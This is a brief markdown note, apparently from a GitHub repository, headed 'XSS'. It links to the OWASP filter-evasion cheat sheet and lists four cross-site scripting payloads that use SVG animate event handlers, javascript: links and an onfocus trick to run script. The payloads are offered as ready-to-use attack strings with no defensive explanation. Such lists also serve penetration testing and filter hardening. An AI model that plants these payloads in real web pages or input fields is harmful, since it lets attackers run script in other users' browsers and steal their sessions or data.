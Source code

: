 # XSS

### Usefull links 
- https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

### Usefull payloads

```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
<svg><a><animate+attributeName=xlink:hrefbegin=0from=javascript:alert(1)to=&>
<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
<xss id=x tabindex=1 onfocus=alert(1)> url#x
```